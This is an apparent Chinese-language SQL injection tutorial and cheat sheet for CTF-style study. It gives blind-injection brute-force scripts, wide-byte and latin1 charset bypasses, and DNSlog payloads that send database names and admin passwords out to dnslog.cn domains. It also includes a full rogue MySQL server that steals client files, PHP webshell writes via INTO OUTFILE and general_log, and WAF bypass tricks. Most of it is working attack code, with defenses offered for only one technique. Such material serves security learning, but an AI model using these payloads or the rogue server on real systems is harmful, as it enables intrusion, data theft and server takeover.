| 主键重复          | floor round                                                  | ❓               | ✔️     | ✔️     | ✔️     |      | 64           |                   | data_type ≠ varchar |
| 列名重复          | name_const                                                   | ❓               | ✔️     | ✔️     | ✔️     | ✔️    |              |                   | only version()      |
| 列名重复          | join                                                         | [5.5.49, ?)     | ✔️     | ✔️     | ✔️     | ✔️    |              |                   | only columns        |
| 数据溢出 - Double | 1e308 cot exp pow                                            | [5.5.5, 5.5.48] | ✔️     |       |       |      |              | MYSQL_ERRMSG_SIZE |                     |
| 数据溢出 - BIGINT | 1+~0                                                         | [5.5.5, 5.5.48] | ✔️     |       |       |      |              | MYSQL_ERRMSG_SIZE |                     |
| 几何对象          | geometrycollection linestring multipoint multipolygon multilinestring polygon | [?, 5.5.48]     | ✔️     |       |       |      |              | 244               |                     |
| 空间函数 Geohash  | ST_LatFromGeoHash ST_LongFromGeoHash ST_PointFromGeoHash     | [5.7, ?)        |       |       | ✔️     | ✔️    | 128          |                   |                     |
| GTID              | gtid_subset gtid_subtract                                    | [5.6.5, ?)      |       | ✔️     | ✔️     | ✔️    | 200          |                   |                     |
| JSON              | json_*                                                       | [5.7.8, 5.7.11] |       |       | ✔️     |      | 200          |                   |                     |
| UUID              | uuid_to_bin bin_to_uuid                                      | [8.0, ?)        |       |       |       | ✔️    | 128          |                   |                     |
| XPath             | extractvalue updatexml                                       | [5.1.5, ?)      | ✔️     | ✔️     | ✔️     | ✔️    | 32           |                   |                     |


### LIKE 注入


在LIKE子句中，百分比(%)通配符允许**匹配任何字符串的零个或多个字符**。下划线 `_` 通配符允许**匹配任何单个字符**。**匹配成功则返回1，反之返回0**，可用于sql盲注。


1. 判断数据库长度


可用length()函数，也可用`_`，如：


```sql
/?id=' or database() like '________'--+  // 回显正常
```


1. 判断数据库名


```sql
/?id=' or database() like 's%' --+
/?id=' or (select database()) like 's%' --+
或者:
/?id=' or database() like 's_______' --+
/?id=' or (select database()) like 's_______' --+
```


如上图所示，回显正常，说明数据库名的第一个字符是s。


综上所述，很明显和普通的布尔盲注差不多，于是写个GET的二分法盲注脚本：


```python
import requests
import string

# strs = string.printable
strs = string.ascii_letters + string.digits + '_'
url = "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx/?id="

payload = "' or (select database()) like '{}%'--+"

if __name__ == "__main__":
    name = ''
    for i in range(1, 40):
        char = ''
        for j in strs:
            payloads = payload.format(name + j)
            urls = url + payloads
            r = requests.get(urls)
            if "You are in" in r.text:
                name += j
                print(j, end='')
                char = j
                break
        if char == '#':
            break
```


### REGEXP 注入（正则表达式注入（盲注））

REGEXP注入，即regexp正则表达式注入。REGEXP注入，又叫盲注值正则表达式攻击。应用场景就是盲注，原理是直接查询自己需要的数据，然后通过正则表达式进行匹配。

1. 判断数据库长度

```sql
/?id=' or (length(database())) regexp 8 --+  // 回显正常
```

1. 判断数据库名

```sql
/?id=' or database() regexp '^s'--+    // 回显正常
/?id=' or database() regexp 'se'--+    // 回显正常, 不适用^和$进行匹配也可以
/?id=' or database() regexp '^sa'--+   // 报错
/?id=' or database() regexp 'y$'--+    // 回显正常
```

脚本：

```python
import requests
import string

# strs = string.printable
strs = string.ascii_letters + string.digits + '_'
url = "xxxxxxxxxxxxxxx/?id="

payload = "' or (select database()) regexp '^{}'--+"

if __name__ == "__main__":
    name = ''
    for i in range(1, 40):
        char = ''
        for j in strs:
            payloads = payload.format(name + j)
            urls = url + payloads
            r = requests.get(urls)
            if "You are in" in r.text:
                name += j
                print(j, end='')
                char = j
                break
        if char == '#':
            break
            
            

import requests
from urllib import parse
import string
url = 'http://f506ce94-1374-4a22-9aec-fcdaf4e3cd6c.node4.buuoj.cn:81/index.php'
num = 0
flag = ''
string= string.ascii_lowercase + string.digits + '_'# flag是由小写字母数字和_组成
for i in range (1,50):
    if num == 1 :
        break
    for j in string:
        data = {
            #sql语句：select * from users where username = '\' and passwd=' || 1/**/regexp/**/"^{payload}";%00'
            "username":"\\",
            "passwd":"||/**/passwd/**/regexp/**/\"^{}\";{}".format((flag+j),parse.unquote('%00'))
        }#这里的%00是因为其他注释符号都被禁用了，因此使用%00截断来代替
        res = requests.post(url=url,data=data)
        if 'welcome' in res.text:
            flag += j
            print(flag)
            break
        if j=='_' and 'welcome' not in res.text:
            break
```


### 宽字节注入


**前置知识**


**magic_quotes_gpc** （魔术引号开关）


`magic_quotes_gpc`函数在php中的作用是判断解析用户提交的数据，如包括有：post、get、cookie过来的数据增加转义字符“\”，以确保这些数据不会引起程序，特别是数据库语句因为特殊字符引起的污染而出现致命的错误。


单引号（’）、双引号（”）、反斜线（\）等字符都会被加上反斜线，我们输入的东西如果不能闭合，那我们的输入就不会当作代码执行，就无法产生SQL注入。


**addslashes()函数**


返回在如下预定义字符之前添加反斜杠之后的字符串


```plain
预定义字符：单引号（'），双引号（"），反斜杠（\），NULL
```


**宽字节概念：**


1. 单字节字符集：所有的字符都使用一个字节来表示，比如 ASCII 编码(0-127)
2. 多字节字符集：在多字节字符集中，一部分字节用多个字节来表示，另一部分（可能没有）用单个字节来表示。
3. UTF-8 编码： 是一种编码的编码方式（多字节编码），它可以使用1~4个字节表示一个符号，根据不同的符号而变化字节长度。
4. 常见的宽字节： GB2312、GBK、GB18030、BIG5、Shift_JIS GB2312 不存在宽字节注入，可以收集存在宽字节注入的编码。
5. 宽字节注入时利用mysql的一个特性，使用GBK编码的时候，会认为两个字符是一个汉字


**成因与示例**


前面讲到了GBK编码格式。GBK是双字符编码，那么为什么他们会和渗透测试发送了“巧遇”呢？


**宽字节SQL注入主要是源于程序员设置数据库编码为非英文编码那么就有可能产生宽字节注入。**

例如说MySql的编码设置为了SET NAMES 'gbk'或是 SET character_set_client =gbk，这样配置会引发编码转换从而导致的注入漏洞。

**宽字节SQL注入的根本原因:**

**宽字节SQL注入就是PHP发送请求到MySql时使用了语句**

**SET NAMES 'gbk' 或是SET character_set_client =gbk 进行了一次编码，但是又由于一些不经意的字符集转换导致了宽字节注入。**

**magic_quotes_gpc的作用：当PHP的传参中有特殊字符就会在前面加转义字符'',来做一定的过滤**

为了绕过magic_quotes_gpc的,于是乎我们开始导入宽字节的概念

我们发现\的编码是%5c，然后我们会想到传参一个字符想办法凑成一个gbk字符,例如：‘運’字是%df%5c


```sql
SELECT * FROM users WHERE id='1\'' LIMIT 0,1
```

这条语句因为\使我们无法去注入，那么我们是不是可以用%df吃到%5c,因为如果用GBK编码的话这个就是運，然后成功绕过

```sql
SELECT * FROM users WHERE id='1�\'#' LIMIT 0,1
```

##### 还可以使用反斜杠 \ 逃逸 Sql 语句

如果没有过滤反斜杠的话，我们可以使用反斜杠将后面的引号转义，从而逃逸后面的 Sql 语句。

假设sql语句为：

```sql
select username, password from users where username='$username' and password='$password';
```

假设输入的用户名是 `admin\`，密码输入的是 `or 1#` 整个SQL语句变成了

```sql
select username,password from users where username='admin\' and password=' or 1#'
```

由于单引号被转义，`and password=`这部分都成了username的一部分，即

```sql
username='admin\' and password='
```


这样 `or 1` 就逃逸出来了，由此可控，可作为注入点了。


### Latin1默认编码相关


讲完了gbk造成的编码问题，我们再讲讲latin1造成的编码问题。


老样子，先举个例子。


```php
<?php
//该代码节选自：离别歌's blog
$mysqli = new mysqli("localhost", "root", "root", "cat");

/* check connection */
if ($mysqli->connect_errno) {
    printf("Connect failed: %s\n", $mysqli->connect_error);
    exit();
}

$mysqli->query("set names utf8");

$username = addslashes($_GET['username']);

//我们在其基础上添加这么一条语句。
if($username === 'admin'){
    die("You can't do this.");
}

/* Select queries return a resultset */
$sql = "SELECT * FROM `table1` WHERE username='{$username}'";

if ($result = $mysqli->query( $sql )) {
    printf("Select returned %d rows.\n", $result->num_rows);

    while ($row = $result->fetch_array(MYSQLI_ASSOC))
    {
        var_dump($row);
    }

    /* free result set */
    $result->close();
} else {
    var_dump($mysqli->error);
}

$mysqli->close();
?>
```


建表语句如下：


```sql
CREATE TABLE `table1` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(255) COLLATE latin1_general_ci NOT NULL,
  `password` varchar(255) COLLATE latin1_general_ci NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM AUTO_INCREMENT=1 DEFAULT CHARSET=latin1 COLLATE=latin1_general_ci;
```


我们设置表的编码为latin1，事实上，就算你不填写，默认编码便是latin1。


我们往表中添加一条数据：`insert table1 VALUES(1,'admin','admin');`


注意查看源代码：


```php
if($username === 'admin'){
    die("You can't do this.");
}
```


我们对用户的输入进行了判断，若输入内容为admin，直接结束代码输出返回，并且还对输出的内容进行addslashes处理，使得我们无法逃逸出单引号。


这样的话，我们该怎样绕过这个限制，让页面输出admin的数据呢？


我们注意到：`$mysqli->query("set names utf8");`这么一行代码，在连接到数据库之后，执行了这么一条SQL语句。


上边在gbk宽字节注入的时候讲到过：`set names utf8;`相当于：


```sql
mysql>SET character_set_client ='utf8';
mysql>SET character_set_results ='utf8';
mysql>SET character_set_connection ='utf8';
```


前边说道：PHP的编码是`UTF-8`，而我们现在设置的也是`UTF-8`，怎么会产生问题呢？


别着急，让我接着往下说。前边我们提到：SQL语句会先转成`character_set_client`设置的编码。但，他接下来还会继续转换。`character_set_client`客户端层转换完毕之后，数据将会交给`character_set_connection`连接层处理，最后在从`character_set_connection`转到数据表的内部操作字符集。


来本例中，字符集的转换为：`UTF-8—>UTF-8->Latin1`


这里需要讲一下UTF-8编码的一些内容。


```plain
UTF-8编码是变长编码，可能有1~4个字节表示：

1. 一字节时范围是`[00-7F]`
2. 两字节时范围是`[C0-DF][80-BF]`
3. 三字节时范围是`[E0-EF][80-BF][80-BF]`
4. 四字节时范围是`[F0-F7][80-BF][80-BF][80-BF]`

然后根据RFC 3629规范，又有一些字节值是不允许出现在UTF-8编码中的，所以最终，UTF-8第一字节的取值范围是：00-7F、C2-F4。

关于所有的UTF-8字符，你可以在这个表中一一看到： http://utf8-chartable.de/unicode-utf8-table.pl
```


利用这一特性，我们输入：`?username=admin%c2`，`%c2`是一个Latin1字符集不存在的字符。


由上述，可以简单的知道：%00-%7F可以直接表示某个字符、%C2-%F4不可以直接表示某个字符，他们只是其他长字节编码结果的首字节。


但是，这里还有一个Trick：Mysql所使用的UTF-8编码是阉割版的，仅支持三个字节的编码。所以说，Mysql中的UTF-8字符集只有最大三字节的字符，首字节范围：`00-7F、C2-EF`。


而对于不完整的长字节UTF-8编码的字符，若进行字符集转换时，会直接进行忽略处理。


利用这一特性，我们的payload为`?username=admin%c2`，此处的`%c2`换为`%c2-%ef`均可。


```plain
SELECT * FROM `table1` WHERE username='admin'
```


因为`admin%c2`在最后一层的内部操作字符集转换中变成`admin`。


### DNS注入


##### 原理


通过子查询，将内容拼接到域名内，让load_file()去访问共享文件，访问的域名被记录此时变为显错注入,将盲注变显错注入,读取远程共享文件，通过拼接出函数做查询,拼接到域名中，访问时将访问服务器，记录后查看日志。


在无法直接利用的情况下，但是可以通过DNS请求,通过DNSlog，把数据外带，用DNS解析记录查看。


##### LOAD_FILE()  读取文件的函数


```plain
读取文件并返回文件内容为字符串。

要使用此函数，文件必须位于服务器主机上，必须指定完整路径的文件，而且必须有FILE权限。该文件所有字节可读，但文件内容必须小于 max_allowed_packet（限制server接受的数据包大小函数，默认1MB）。  如果该文件不存在或无法读取，因为前面的条件之一不满足，函数返回 NULL。
```


**注：这个功能不是默认开启的，需要在mysql配置文件加一句 secure_file_priv=**


##### DNSLOG平台:


[https://dns.咕.com/](https://dns.xn--9tr.com/)

 

[https://log.咕.com/](https://log.xn--9tr.com/)

 

http://ceye.io/


##### UNC路径


```plain
UNC路径通用命名规则，也称通用命名规范、通用命名约定，类似\softer这样的形式的网络路径。
在Windows中，路径以\\开头的路径在Windows中被定义为UNC路径，相当于网络硬盘一样的存在，所以我们填写域名的话，Windows会先进行DNS查询。但是对于Linux来说，并没有这一标准，所以DNSLOG在Linux环境不适用。

注：payload里的四个\\\\中的两个\是用来进行转义处理的。
```


UNC路径的 **格式** ：**\server\sharename\directory\filename**


等同于**SELECT LOAD_FILE('**[**//库名.1806dl.dnslog.cn/abc**](http://xn--eqrt8v.1806dl.dnslog.cn/abc)**'**


去访问  库名.1806dl.dnslog.cn 的服务器下的共享文件夹abc。


然后1806dl.dnslog.cn的子域名的解析都是在某台服务器，然后他记录下来了有人请求访问了error.1806dl.dnslog.cn，然后在DnsLog这个平台上面显示出来了


payload示例：


```sql
?id=1 and load_file(concat('\\\\', database(),'.htleyd.dnslog.cn\abc'))
?id=1 and load_file(concat('\\\\', (select table_name from information_schema.tables where table_schema=database() limit 0,1 ),'.htleyd.dnslog.cn\abc'))
?id=1 and load_file(concat('\\\\',(select column_name from information_schema.columns where table_name=’admin’ and table_schema=database() limit 2,1),'.htleyd.dnslog.cn\abc'))
?id=1 and load_file(concat('\\\\',(select password from admin limit 0,1),'.htleyd.dnslog.cn/abc'))
```


### 基于约束的sql注入攻击


最近，我遇到了一个有趣的代码片段，开发者尝试各种方法来确保数据库的安全访问。当新用户尝试注册时，将运行以下代码：


```php
<?php
// Checking whether a user with the same username exists
$username = mysql_real_escape_string($_GET['username']);
$password = mysql_real_escape_string($_GET['password']);
$query = "SELECT *
          FROM users
          WHERE username='$username'";
$res = mysql_query($query, $database);
if($res) {
  if(mysql_num_rows($res) > 0) {
    // User exists, exit gracefully
    .
    .
  }
  else {
    // If not, only then insert a new entry
    $query = "INSERT INTO users(username, password)
              VALUES ('$username','$password')";
    .
    .
  }
}
```


使用以下代码验证登录信息：


```php
<?php
$username = mysql_real_escape_string($_GET['username']);
$password = mysql_real_escape_string($_GET['password']);
$query = "SELECT username FROM users
          WHERE username='$username'
              AND password='$password' ";
$res = mysql_query($query, $database);
if($res) {
  if(mysql_num_rows($res) > 0){
      $row = mysql_fetch_assoc($res);
      return $row['username'];
  }
}
return Null;
```


安全考虑:


- 过滤用户输入参数了吗？ — 完成检查
- 使用单引号（’）来增加安全性了吗？ — 完成检查


按理说应该不会出错了啊？


然而，攻击者依然能够以任意用户身份进行登录！


#### 攻击手法


在谈论这种攻击手法之前，首先我们需要了解几个关键知识点。


1. 在SQL中执行字符串处理时，字符串末尾的空格符将会被删除。换句话说“vampire”等同于“vampire  ”，对于绝大多数情况来说都是成立的（诸如WHERE子句中的字符串或INSERT语句中的字符串）例如以下语句的查询结果，与使用用户名“vampire”进行查询时的结果是一样的。


```sql
SELECT * FROM users WHERE username='vampire     ';
```


1. 但也存在异常情况，最好的例子就是LIKE子句了。注意，对尾部空白符的这种修剪操作，主要是在“字符串比较”期间进行的。这是因为，SQL会在内部使用空格来填充字符串，以便在比较之前使其它们的长度保持一致。
2. 在所有的INSERT查询中，SQL都会根据varchar(n)来限制字符串的最大长度。也就是说，如果字符串的长度大于“n”个字符的话，那么仅使用字符串的前“n”个字符。比如特定列的长度约束为“5”个字符，那么在插入字符串“vampire”时，实际上只能插入字符串的前5个字符，即“vampi”。


现在，让我们建立一个测试数据库来演示具体攻击过程。


```sql
vampire@linux:~$ mysql -u root -p
mysql> CREATE DATABASE testing;
Query OK, 1 row affected (0.03 sec)
mysql> USE testing;
Database changed
```


接着创建一个数据表users，其包含username和password列，并且字段的最大长度限制为25个字符。然后，我将向username字段插入“vampire”，向password字段插入“my_password”。


```sql
mysql> CREATE TABLE users (
    ->   username varchar(25),
    ->   password varchar(25)
    -> );
Query OK, 0 rows affected (0.09 sec)
mysql> INSERT INTO users
    -> VALUES('vampire', 'my_password');
Query OK, 1 row affected (0.11 sec)
mysql> SELECT * FROM users;
+----------+-------------+
| username | password    |
+----------+-------------+
| vampire  | my_password |
+----------+-------------+
1 row in set (0.00 sec)
```


为了展示尾部空白字符的修剪情况，我们可以键入下列命令


```sql
mysql> SELECT * FROM users
    -> WHERE username='vampire       ';
+----------+-------------+
| username | password    |
+----------+-------------+
| vampire  | my_password |
+----------+-------------+
1 row in set (0.00 sec)
```


现在我们假设一个存在漏洞的网站使用了前面提到的PHP代码来处理用户的注册及登录过程。为了侵入任意用户的帐户（在本例中为“vampire”），只需要使用用户名“vampire[许多空白符]1”和一个随机密码进行注册即可。对于选择的用户名，前25个字符应该只包含vampire和空白字符，这样做将有助于绕过检查特定用户名是否已存在的查询。


```sql
mysql> SELECT * FROM users
    -> WHERE username='vampire                   1';
Empty set (0.00 sec)
```


需要注意的是，在执行SELECT查询语句时，SQL是不会将字符串缩短为25个字符的。因此，这里将使用完整的字符串进行搜索，所以不会找到匹配的结果。接下来，当执行INSERT查询语句时，它只会插入前25个字符。


```sql
mysql>   INSERT INTO users(username, password)
    -> VALUES ('vampire                   1', 'random_pass');
Query OK, 1 row affected, 1 warning (0.05 sec)
mysql> SELECT * FROM users
    -> WHERE username='vampire';
+---------------------------+-------------+
| username                  | password    |
+---------------------------+-------------+
| vampire                   | my_password |
| vampire                   | random_pass |
+---------------------------+-------------+
2 rows in set (0.00 sec)
```


很好，现在我们检索“vampire”的，将返回两个独立用户。注意，第二个用户名实际上是“vampire”加上尾部的18个空格。现在，如果使用用户名“vampire”和密码“random_pass”登录的话，则所有搜索该用户名的SELECT查询都将返回第一个数据记录，也就是原始的数据记录。这样的话，攻击者就能够以原始用户身份登录。这个攻击已经在MySQL和SQLite上成功通过测试

#### 防御：

-  给username字段添加unique属性。 
-  使用id字段作为判断用户的凭证。 
-  插入数据前判断数据长度。 
   我们知道Mysql是很灵活的，它支持文件读/写功能。在讲这之前，有必要介绍下什么是`file_priv`和`secure-file-priv`。
   简单的说：`file_priv`是对于用户的文件读写权限，若无权限则不能进行文件读写操作，可通过下述payload查询权限。 

## 文件读写

```sql
select file_priv from mysql.user where user=$USER host=$HOST;
```


`secure-file-priv`是一个系统变量，对于文件读/写功能进行限制。具体如下： 

- - 无内容，表示无限制。
  - 为NULL，表示禁止文件读/写。
  - 为目录名，表示仅允许对特定目录的文件进行读/写。

注：**5.5.53本身及之后的版本默认值为NULL，之前的版本无内容**。
三种方法查看当前`secure-file-priv`的值： 

```sql
select @@secure_file_priv;
select @@global.secure_file_priv;
show variables like "secure_file_priv";
```

修改： 

- - 通过修改my.ini文件，添加：`secure-file-priv=`
  - 启动项添加参数：`mysqld.exe --secure-file-priv=`

#### 读

Mysql读取文件通常使用load_file函数，语法如下： 

```sql
select load_file(file_path);
```

第二种读文件的方法： 

```sql
load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n'; #读取服务端文件
```

第三种： 

```sql
load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n'; #读取客户端文件
```

限制： 

- - 前两种需要`secure-file-priv`无值或为有利目录。
  - 都需要知道要读取的文件所在的绝对路径。
  - 要读取的文件大小必须小于`max_allowed_packet`所设置的值

#### 低权限读取文件

5.5.53`secure-file-priv=NULL`读文件payload，mysql8测试失败，其他版本自测。 

```sql
drop table mysql.m1;
CREATE TABLE mysql.m1 (code TEXT );
LOAD DATA LOCAL INFILE 'D://1.txt' INTO TABLE mysql.m1 fields terminated by '';
select * from mysql.m1;
```

#### Mysql连接数据库时可读取文件

这个漏洞是mysql的一个特性产生的，是上述的第三种读文件的方法为基础的。
简单描述该漏洞：Mysql客户端在执行`load data local`语句的时，先想mysql服务端发送请求，服务端接收到请求，并返回需要读取的文件地址，客户端接收该地址并进行读取，接着将读取到的内容发送给服务端。用通俗的语言可以描述如下：
原本的查询流程: 

```plain
客户端：我要把我的win.ini文件内容插入test表中
服务端：好，我要你的win.ini文件内容
客户端：win.ini的内容如下....
```

假设服务端由我们控制，把一个正常的流程篡改成如下 

```plain
客户端：我要把我的win.ini文件内容插入test表中
服务端：好，我要你的conn.php内容
客户端：conn.php的内容如下???
```

换句话说：`load data local`语句要读取的文件会受到服务端的控制。
其次，在[Mysql官方文档对于](https://dev.mysql.com/doc/refman/8.0/en/load-data-local.html)`load data local`[语句的安全说明](https://dev.mysql.com/doc/refman/8.0/en/load-data-local.html)中有这么一句话: 

A patched server could in fact reply with a file-transfer request to any statement, not just `LOAD DATA LOCAL`, so a more fundamental issue is that clients should not connect to untrusted servers.

意思是：服务器对客户端的文件读取请求实际上是可以返回给客户端发送给服务端的任意语句请求的，不仅仅只是`load data local`语句。
这就会产生什么结果呢？之前讲的例子，将可以变成： 

```sql
客户端：我需要查询test表下的xx内容
服务端：我需要你的conn.php内容
客户端：conn.php的内容如下???
```

可以看到，客户端相当于被攻击者给**半劫持**了。
利用上述的特性，我们通过构造一个恶意的服务端，即可完成上述的过程。
简易恶意服务端代码： 

```python
#代码摘自：https://github.com/Gifts/Rogue-MySql-Server/blob/master/rogue_mysql_server.py
#!/usr/bin/env python
#coding: utf8

import socket
import asyncore
import asynchat
import struct
import random
import logging
import logging.handlers

PORT = 3306
log = logging.getLogger(__name__)
log.setLevel(logging.DEBUG)
tmp_format = logging.handlers.WatchedFileHandler('mysql.log', 'ab')
tmp_format.setFormatter(logging.Formatter("%(asctime)s:%(levelname)s:%(message)s"))
log.addHandler(
    tmp_format
)

filelist = (
#    r'c:\boot.ini',
    r'c:\windows\win.ini',
#    r'c:\windows\system32\drivers\etc\hosts',
#    '/etc/passwd',
#    '/etc/shadow',
)

#================================================
#=======No need to change after this lines=======
#================================================

__author__ = 'Gifts'

def daemonize():
    import os, warnings
    if os.name != 'posix':
        warnings.warn('Cant create daemon on non-posix system')
        return

    if os.fork(): os._exit(0)
    os.setsid()
    if os.fork(): os._exit(0)
    os.umask(0o022)
    null=os.open('/dev/null', os.O_RDWR)
    for i in xrange(3):
        try:
            os.dup2(null, i)
        except OSError as e:
            if e.errno != 9: raise
    os.close(null)

class LastPacket(Exception):
    pass

class OutOfOrder(Exception):
    pass

class mysql_packet(object):
    packet_header = struct.Struct('<Hbb')
    packet_header_long = struct.Struct('<Hbbb')
    def __init__(self, packet_type, payload):
        if isinstance(packet_type, mysql_packet):
            self.packet_num = packet_type.packet_num + 1
        else:
            self.packet_num = packet_type
        self.payload = payload

    def __str__(self):
        payload_len = len(self.payload)
        if payload_len < 65536:
            header = mysql_packet.packet_header.pack(payload_len, 0, self.packet_num)
        else:
            header = mysql_packet.packet_header.pack(payload_len & 0xFFFF, payload_len >> 16, 0, self.packet_num)

        result = "{0}{1}".format(
            header,
            self.payload
        )
        return result

    def __repr__(self):
        return repr(str(self))

    @staticmethod
    def parse(raw_data):
        packet_num = ord(raw_data[0])
        payload = raw_data[1:]

        return mysql_packet(packet_num, payload)

class http_request_handler(asynchat.async_chat):

    def __init__(self, addr):
        asynchat.async_chat.__init__(self, sock=addr[0])
        self.addr = addr[1]
        self.ibuffer = []
        self.set_terminator(3)
        self.state = 'LEN'
        self.sub_state = 'Auth'
        self.logined = False
        self.push(
            mysql_packet(
                0,
                "".join((
                    '\x0a',  # Protocol
                    '3.0.0-Evil_Mysql_Server' + '\0',  # Version
                    #'5.1.66-0+squeeze1' + '\0',
                    '\x36\x00\x00\x00',  # Thread ID
                    'evilsalt' + '\0',  # Salt
                    '\xdf\xf7',  # Capabilities
                    '\x08',  # Collation
                    '\x02\x00',  # Server Status
                    '\0' * 13,  # Unknown
                    'evil2222' + '\0',
                ))
            )
        )

        self.order = 1
        self.states = ['LOGIN', 'CAPS', 'ANY']

    def push(self, data):
        log.debug('Pushed: %r', data)
        data = str(data)
        asynchat.async_chat.push(self, data)

    def collect_incoming_data(self, data):
        log.debug('Data recved: %r', data)
        self.ibuffer.append(data)

    def found_terminator(self):
        data = "".join(self.ibuffer)
        self.ibuffer = []

        if self.state == 'LEN':
            len_bytes = ord(data[0]) + 256*ord(data[1]) + 65536*ord(data[2]) + 1
            if len_bytes < 65536:
                self.set_terminator(len_bytes)
                self.state = 'Data'
            else:
                self.state = 'MoreLength'
        elif self.state == 'MoreLength':
            if data[0] != '\0':
                self.push(None)
                self.close_when_done()
            else:
                self.state = 'Data'
        elif self.state == 'Data':
            packet = mysql_packet.parse(data)
            try:
                if self.order != packet.packet_num:
                    raise OutOfOrder()
                else:
                    # Fix ?
                    self.order = packet.packet_num + 2
                if packet.packet_num == 0:
                    if packet.payload[0] == '\x03':
                        log.info('Query')

                        filename = random.choice(filelist)
                        PACKET = mysql_packet(
                            packet,
                            '\xFB{0}'.format(filename)
                        )
                        self.set_terminator(3)
                        self.state = 'LEN'
                        self.sub_state = 'File'
                        self.push(PACKET)
                    elif packet.payload[0] == '\x1b':
                        log.info('SelectDB')
                        self.push(mysql_packet(
                            packet,
                            '\xfe\x00\x00\x02\x00'
                        ))
                        raise LastPacket()
                    elif packet.payload[0] in '\x02':
                        self.push(mysql_packet(
                            packet, '\0\0\0\x02\0\0\0'
                        ))
                        raise LastPacket()
                    elif packet.payload == '\x00\x01':
                        self.push(None)
                        self.close_when_done()
                    else:
                        raise ValueError()
                else:
                    if self.sub_state == 'File':
                        log.info('-- result')
                        log.info('Result: %r', data)

                        if len(data) == 1:
                            self.push(
                                mysql_packet(packet, '\0\0\0\x02\0\0\0')
                            )
                            raise LastPacket()
                        else:
                            self.set_terminator(3)
                            self.state = 'LEN'
                            self.order = packet.packet_num + 1

                    elif self.sub_state == 'Auth':
                        self.push(mysql_packet(
                            packet, '\0\0\0\x02\0\0\0'
                        ))
                        raise LastPacket()
                    else:
                        log.info('-- else')
                        raise ValueError('Unknown packet')
            except LastPacket:
                log.info('Last packet')
                self.state = 'LEN'
                self.sub_state = None
                self.order = 0
                self.set_terminator(3)
            except OutOfOrder:
                log.warning('Out of order')
                self.push(None)
                self.close_when_done()
        else:
            log.error('Unknown state')
            self.push('None')
            self.close_when_done()

class mysql_listener(asyncore.dispatcher):
    def __init__(self, sock=None):
        asyncore.dispatcher.__init__(self, sock)

        if not sock:
            self.create_socket(socket.AF_INET, socket.SOCK_STREAM)
            self.set_reuse_addr()
            try:
                self.bind(('', PORT))
            except socket.error:
                exit()

            self.listen(5)

    def handle_accept(self):
        pair = self.accept()

        if pair is not None:
            log.info('Conn from: %r', pair[1])
            tmp = http_request_handler(pair)

z = mysql_listener()
daemonize()
asyncore.loop()
```

需要注意的是：这个过程需要客户端允许使用`load data local`才行，不过这个信息在客户端尝试连接到服务端的数据包中可以找到。 

### 写

说完了读文件，那我们来说说mysql的写文件操作。常见的写文件操作如下： 

```sql
select 1,"<?php @assert($_POST['t']);?>" into outfile '/var/www/html/1.php';
select 2,"<?php @assert($_POST['t']);?>" into dumpfile '/var/www/html/1.php';
```

限制： 

- - `secure-file-priv`无值或为可利用的目录
  - 需知道目标目录的绝对目录地址
  - 目标目录可写，mysql的权限足够。

#### 日志法

由于mysql在5.5.53版本之后，`secure-file-priv`的值默认为`NULL`，这使得正常读取文件的操作基本不可行。我们这里可以利用mysql生成日志文件的方法来绕过。
mysql日志文件的一些相关设置可以直接通过命令来进行： 

```sql
//请求日志
mysql> set global general_log_file = '/var/www/html/1.php';
mysql> set global general_log = on;
//慢查询日志
mysql> set global slow_query_log_file='/var/www/html/2.php'
mysql> set global slow_query_log=1;
//还有其他很多日志都可以进行利用
...
```

之后我们在让数据库执行满足记录条件的恶意语句即可。
限制： 

- - 权限够，可以进行日志的设置操作
  - 知道目标目录的绝对路径


## bypass


### and/or 被过滤/拦截


1. 双写`anandd、oorr`
2. 使用运算符代替`&&、||`
3. 直接拼接`=`号，如：`?id=1=(condition)`
4. 其他方法，如：`?id=1^(condition)`


### 空格被过滤/拦截


```sql
# 使用注释符/**/代替空格:
select/**/database();

# 使用加号+代替空格:(只适用于GET方法中)
select+database();
# 注意: 加号+在URL中使⽤记得编码为%2B: select%2Bdatabase(); (python中不用)

# 使⽤括号嵌套:
select(group_concat(table_name))from(information_schema.taboles)where(tabel_schema=database());

# 使⽤其他不可⻅字符代替空格:
%09, %0a, %0b, %0c, %0d, %a0

#利用``分隔进行绕过
select host,user from user where user='a'union(select`table_name`,`table_type`from`information_schema`.`tables`);

# and/or后面可以跟上偶数个!、~可以替代空格，也可以混合使用(规律又不同)，and/or前的空格可用省略

如：select * from user where username='admin'union(select+title,content/**/from/*!article*/where/**/id='1'and!!!!~~1=1)
```


### 括号被过滤/拦截


- order by 大小比较盲注


### 逗号被过滤/拦截


1. 改用盲注
2. 使用join语句代替
3. `substr(data from 1 for 1)`相当于`substr(data,1,1)`、`limit 9 offset 4`相当于`limt 9,4`


### 其他系统关键字被过滤/拦截


1.  

```plain
双写绕过关键字过滤
```

 

1.  

```plain
使用同义函数/语句代替，如if函数可用`case when condition then 1 else 0 end`语句代替
```

 

1.  

```sql
预处理，或其他手段造成字符串拼接来绕过
1';set @a=concat("sel","ect * from users");prepare sql from @a;execute sql;
```

 

1.  

```sql
大小写变换
-1' UnIoN SeLeCt 1,2,database()--+
```

 

1.  

```sql
使用同义函数/语句代替，如if函数可用`case when condition then 1 else 0 end`语句代替。
```

 


### 单双引号被过滤/拦截/转义


1. 需要跳出单引号的情况：尝试是否存在编码问题而产生的SQL注入(宽字节注入等)
2. 不需要跳出单引号的情况：字符串可用十六进制表示、也可通过进制转换函数表示成其他进制。


### 数字被过滤/拦截

| 代替字符                    | 数   | 代替字符                  | 数   | 字   | 代替字符                     | 数   | 字   |
| --------------------------- | ---- | ------------------------- | ---- | ---- | ---------------------------- | ---- | ---- |
| false、!pi()                | 0    | ceil(pi()*pi())           | 10\  | A    | ceil((pi()+pi())*pi())       | 20\  | K    |
| true、!(!pi())              | 1    | ceil(pi()*pi())+true      | 11\  | B    | ceil(ceil(pi())*version())   | 21\  | L    |
| true+true                   | 2    | ceil(pi()+pi()+version()) | 12\  | C    | ceil(pi()*ceil(pi()+pi()))   | 22\  | M    |
| floor(pi())、~~pi()         | 3    | floor(pi()*pi()+pi())     | 13\  | D    | ceil((pi()+ceil(pi()))*pi()) | 23\  | N    |
| ceil(pi())                  | 4    | ceil(pi()*pi()+pi())      | 14\  | E    | ceil(pi())*ceil(version())   | 24\  | O    |
